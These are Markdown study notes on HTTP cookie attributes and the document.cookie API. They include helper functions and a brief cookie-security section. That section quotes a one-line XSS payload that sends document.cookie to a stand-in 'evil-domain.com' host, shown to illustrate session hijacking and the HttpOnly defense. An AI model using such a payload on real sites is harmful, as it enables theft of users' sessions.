      - `Secure`: HTTPS only
     - `HttpOnly`: cookies are inaccessible to JavaScript's `Document.cookie` API
   - `SameSite` experimental: a cookie shouldn't be sent with cross-site requests
     - `=Strict` — prevent the cookie from being sent by the browser to the target site in all cross-site browsing context, even when following a regular link
     - `=Lax` — only send cookies for TOP LEVEL navigation GET requests. This is sufficient for user tracking, but it will prevent many CSRF attacks
   - Scope of cookies
     - `Domain` — allowed hosts to receive the cookie
       - If unspecified, it defaults to the host of the current document location, excluding subdomains
       - if specified, subdomains are always included
       - a domain that does not include the origin server should be rejected by the user agent
     - `Path` — indicates a URL path that must exist in the requested URL in order to send the `Cookie` header
       - for example: `Path=/docs`
       - only absolute paths, no `..` or `.`

1. `Document.cookie: string` — Read all cookies (URI encoded)
   - Write a new cookie — `document.cookie = 'key=value'`
     - coordination: `encodeURIComponent()`
     - optional followed by attributes
     - `Date.toUTCString()` when setting `Expires`
   - simple framework — [MDN](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie/Simple_document.cookie_framework)
   - get
     ```javascript
     function (sKey) {
         if (!sKey) { return null; }
         return decodeURIComponent(document.cookie.replace(new RegExp("(?:(?:^|.*;)\\s*" + encodeURIComponent(sKey).replace(/[\-\.\+\*]/g, "\\$&") + "\\s*\\=\\s*([^;]*).*$)|^.*$"), "$1")) || null;
     }
     ```

   - remove — set `Expires` to past (`Thu, 01 Jan 1970 00:00:00 GMT`) or set `Max-Age` to non-positive
     ```javascript
     function (sKey, sPath, sDomain) {
         if (!this.hasItem(sKey)) { return false; }
         document.cookie = encodeURIComponent(sKey) + "=; expires=Thu, 01 Jan 1970 00:00:00 GMT" + (sDomain ? "; domain=" + sDomain : "") + (sPath ? "; path=" + sPath : "");
         return true;
     }
     ```

1. cookie security
   - Session hijacking and XSS
     - Cookies are often used in web application to identify a user and their authenticated session
     - stealing a cookie can lead to hijacking the authenticated user's session
     - The `HttpOnly` cookie attribute can help to mitigate this attack
     - exploiting an XSS vulnerability in the application
       ```javascript
       (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
       ```


   [p5]: ./images/5.png
   [p2]: ./images/2.png
   [p3]: ./images/3.png